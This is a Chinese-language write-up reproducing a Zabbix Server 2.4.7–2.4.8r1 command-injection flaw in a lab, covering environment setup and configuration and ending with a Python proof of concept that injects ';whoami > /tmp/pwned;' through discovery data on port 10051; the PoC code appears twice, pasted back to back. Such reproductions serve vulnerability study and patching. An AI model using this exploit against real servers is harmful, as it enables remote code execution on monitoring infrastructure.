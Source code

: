 Zabbix 是一种企业监控解决方案，旨在使组织能够监控其网络中各种系统的健康状况和状态，包括：网络服务，服务器和网络设备。前些日子 Lilith Wyatt of Cisco ASIG 发现利用命令注入的形式可以在 Zabbix Server 上实现远程代码执行，影响的版本为 Zabbix 2.4.7 – 2.4.8r1
0. 前言
-----
Zabbix 是一种企业监控解决方案，旨在使组织能够监控其网络中各种系统的健康状况和状态，包括：网络服务，服务器和网络设备。前些日子 Lilith Wyatt of Cisco ASIG 发现利用命令注入的形式可以在 Zabbix Server 上实现远程代码执行，影响的版本为`Zabbix 2.4.7 – 2.4.8r1`。在复现过程中发现利用条件比较苛刻，首先需要能访问到 Zabbix Server 监听的 10051 端口，另外需要配置 Proxy，以及相应的 Action 来自动添加 Host，从而达到利用 ip 参数进行命令注入。
1. 基础工作
-------
下载 centos7 用 virtualbox 进行运行，接下来就是安装 php mysql apache 等相关基础运行环境。关闭 SELinux 和防火墙以及启动 httpd,mariadb。添加 zabbix 组和用户，zabbix_server 组件默认会用 zabbix 用户启动
```
yum install php php-mysql php-gd php-pear mariadb-server mariadb
systemctl start mariadb
systemctl start httpd
systemctl stop firewalld.service
setenforce 0
groupadd zabbix
useradd -g zabbix zabbix
```
2. 编译安装 Zabbix
--------------
### 2.1 下载有漏洞的版本
```
wget [https://nchc.dl.sourceforge.net/project/zabbix/ZABBIX%20Latest%20Stable/2.4.7/zabbix-2.4.7.tar.gz](https://nchc.dl.sourceforge.net/project/zabbix/ZABBIX%20Latest%20Stable/2.4.7/zabbix-2.4.7.tar.gz)
```
### 2.2 安装依赖
```
yum install -y curl curl-devel mydql-devel net-snmp snmp net-snmp-devel perl-DBI php-gd php-xml php-bcmath php-mbstring php-ldap php-odbc php-xmlrpc
```
### 2.3 编译并安装
可以修改 --prefix 参数来选择安装目录
```
tar -xvf zabbix-2.4.7.tar.gz
cd zabbix-2.4.7/
./configure --prefix=/usr/local/zabbix --enable-server --enable-agent --enable-proxy --with-mysql --enable-net-snmp --with-libcurl 
make
make install
```
### 2.4 导入数据
```
mysql -uroot
>create database zabbix character set utf8 collate utf8_bin;
>use zabbix;
>source /root/zabbix-2.4.7/database/mysql/schema.sql
>source /root/zabbix-2.4.7/database/mysql/images.sql
>source /root/zabbix-2.4.7/database/mysql/data.sql
```
3. 安装 Zabbix　Web 界面
-------------------
### 3.1 复制 PHP 文件到 web 目录
```
mkdir /var/www/html/t
cd frontends/php
cp -a . /var/www/html/t
cd /var/www/html/t
chown apache:apache -R .
```
### 3.2 修改 php.ini
由于访问 setup.php 时需要符合一定的配置
```
post_max_size = 16M
max_execution_time = 300
max_input_time = 300
date.timezone = Asia/Shanghai
allow_url_fopen = On
```
### 3.3 安装前端
访问虚拟机的 80 端口进行安装，安装后默认登录凭证是`Admin/zabbix`
![](/Users/seven/Desktop/pocs/http/zabbix/CVE-2017-2824/CVE-2017-2824.assets/20170502-ddc529ef374a59d46e2e0740b851dee2.png!small)
4 漏洞复现
------
### 4.1 添加 proxy
Administration > proxies > Create proxy
记下填写的 name
### 4.2 创建 Action
configuration > action > Event source(Discovery)> Create Action 配置好条件和操作，操作为 Add host
![](/Users/seven/Desktop/pocs/http/zabbix/CVE-2017-2824/CVE-2017-2824.assets/20170502-36e1ad9d47ba38022769be1493bd344b.png!small)
![](/Users/seven/Desktop/pocs/http/zabbix/CVE-2017-2824/CVE-2017-2824.assets/20170502-94a4fb8e97cb9fbe2d622a3a90c0a598.png!small)
### 4.3 触发漏洞
当 zabbix_server 启动时会监听在 10051 端口，该端口如果对外开放，攻击者可以利用 zabbix 协议的`command`功能调用数据库中特定的脚本，只需要提供 interface 表中的 hostid 参数。在调用脚本时，`{HOST.CONN}`会被替换成表中的 ip。由于插入的 ip 数据没有被过滤则将发生命令注入，严重时可以反弹`shell`等。默认情况下，未经身份验证 (需通过 Zabbix 授权) 的攻击者无法做到这一点。要利用该漏洞还需要以下条件：配置好 Action 的自动发现功能，该功能可以将恶意的数据插入到`interface`表 (配合`Add host`操作)，从而可以进行命令注入攻击。

```python
import socket
import struct
import json
ZABBIX_HOST = "192.168.1.12"
ZABBIX_PORT = 10051
def send_to_zabbix(data):
    client = socket.socket()
    client.connect((ZABBIX_HOST,ZABBIX_PORT))
    packet = "ZBXDx01" + struct.pack('<Q', len(data)) + data
    client.sendall(packet)
    head = client.recv(1024)
    if "ZBXD" not in head:
        client.close()
        return head
    pkt_len = struct.unpack('<Q', client.recv(8))
    data = client.recv(pkt_len[0])
    client.close()
    return data
data = """{"request":"command","scriptid":1,"hostid":10107}"""
discovery = """{
        "request": "discovery data",
    "host": "test",
    "clock":1485353070,
    "data": [
            {
                "clock":1485353070,
            "drule":2,
            "dcheck":2,
            "type":0,
            "ip":";whoami > /tmp/pwned;",        
            "dns":"abc.com.cc",
            "port":10050,
            "key":"zzztest",
            "status":0,
            "value":"fuck"
        }
    ]
    }
"""
#利用自动发现功能添加Host
#可以‘select * from interface;’ 查看是否自动添加成功
print send_to_zabbix(discovery)
#利用命令注入进行攻击
# scriptid == 1 == /bin/ping -c {HOST.CONN} 2>&1
print send_to_zabbix(data)import socket
import struct
import json
ZABBIX_HOST = "192.168.1.12"
ZABBIX_PORT = 10051
def send_to_zabbix(data):
    client = socket.socket()
    client.connect((ZABBIX_HOST,ZABBIX_PORT))
    packet = "ZBXDx01" + struct.pack('<Q', len(data)) + data
    client.sendall(packet)
    head = client.recv(1024)
    if "ZBXD" not in head:
        client.close()
        return head
    pkt_len = struct.unpack('<Q', client.recv(8))
    data = client.recv(pkt_len[0])
    client.close()
    return data
data = """{"request":"command","scriptid":1,"hostid":10107}"""
discovery = """{
        "request": "discovery data",
    "host": "test",
    "clock":1485353070,
    "data": [
            {
                "clock":1485353070,
            "drule":2,
            "dcheck":2,
            "type":0,
            "ip":";whoami > /tmp/pwned;",        
            "dns":"abc.com.cc",
            "port":10050,
            "key":"zzztest",
            "status":0,
            "value":"fuck"
        }
    ]
    }
"""
#利用自动发现功能添加Host
#可以‘select * from interface;’ 查看是否自动添加成功
print send_to_zabbix(discovery)
#利用命令注入进行攻击
# scriptid == 1 == /bin/ping -c {HOST.CONN} 2>&1
print send_to_zabbix(data)
```



`hostid`添加到`interface`表后需要自己查看修改。
![](/Users/seven/Desktop/pocs/http/zabbix/CVE-2017-2824/CVE-2017-2824.assets/20170502-adcc75f12d6f320d3c8d7c5e12a210cc.png!small)
运行后可以看到生成了`/tmp/pwned`文件
![](/Users/seven/Desktop/pocs/http/zabbix/CVE-2017-2824/CVE-2017-2824.assets/20170502-62f69031364160759a81a5a9e33d57ab.png!small)
5. 参考
-----
[https://www.zabbix.com/documentation/2.4/manual/installation/install](https://www.zabbix.com/documentation/2.4/manual/installation/install) [https://support.zabbix.com/browse/ZBX-12075](https://support.zabbix.com/browse/ZBX-12075) [https://www.zabbix.com/documentation/1.8/protocols](https://www.zabbix.com/documentation/1.8/protocols) [http://www.cnblogs.com/xqzt/p/5126523.html](http://www.cnblogs.com/xqzt/p/5126523.html)
